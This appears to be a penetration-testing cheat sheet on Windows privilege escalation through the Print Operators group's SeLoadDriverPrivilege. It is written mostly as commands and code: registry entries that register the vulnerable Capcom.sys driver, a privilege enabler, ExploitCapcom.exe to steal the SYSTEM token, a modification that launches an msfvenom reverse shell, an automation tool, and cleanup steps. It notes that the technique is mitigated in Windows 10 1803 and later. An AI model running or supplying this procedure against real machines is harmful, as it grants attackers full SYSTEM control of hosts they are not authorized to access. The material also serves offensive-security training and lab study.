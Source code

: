 ### **Overview**

- _Print Operators_ have several high-level privileges:
    - _SeLoadDriverPrivilege_ (load/unload device drivers)
    - Log on locally to Domain Controllers
    - Shut down Domain Controllers
    - Manage printers on Domain Controllers

- _SeLoadDriverPrivilege_ is _disabled by default_ and requires elevation (UAC bypass or GUI login as Print Operators member).

---

### **Privilege Confirmation**
```cmd
whoami /priv
```
- Shows available privileges; must elevate to see `SeLoadDriverPrivilege`.

---

### **Exploitation: Loading Vulnerable Driver (Capcom.sys)**

#### **Step-by-Step**

##### **1. Compile Privilege Enabler**

- Use `cl.exe` in Visual Studio:
```cmd
cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp
```
##### **2. Prepare Registry Entry**
```cmd
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"
reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
```
##### **3. Enable Privilege & Load Driver**
```cmd
EnableSeLoadDriverPrivilege.exe
```
##### **4. Confirm Driver Loaded**
```cmd
.\DriverView.exe /stext drivers.txt
Select-String -pattern Capcom drivers.txt
```

---

### **Privilege Escalation**

- Use compiled `ExploitCapcom.exe`:
```cmd
.\ExploitCapcom.exe
```
- Exploits Capcom.sys to steal _SYSTEM token_ and launch a SYSTEM shell.


---

### **Alternate: No GUI Access**

- Modify `ExploitCapcom.cpp`:
```cpp
TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```
- Use reverse shell payload from _msfvenom_, listener setup required.

---

### **Automation Option**

- Tool: `EoPLoadDriver.exe`
```cmd
EoPLoadDriver.exe System\CurrentControlSet\Capcom C:\Tools\Capcom.sys
```
- Automates privilege enablement, registry setup, and driver loading.

---

### **Cleanup**

- Delete registry keys:
```cmd
reg delete HKCU\System\CurrentControlSet\Capcom
```

---

### **Important Notes**

- Attack vector mitigated in _Windows 10 Version 1803+_:
    - Registry path under _HKCU_ no longer accepted for driver loading.

- Requires UAC bypass or GUI admin shell for privilege elevation.
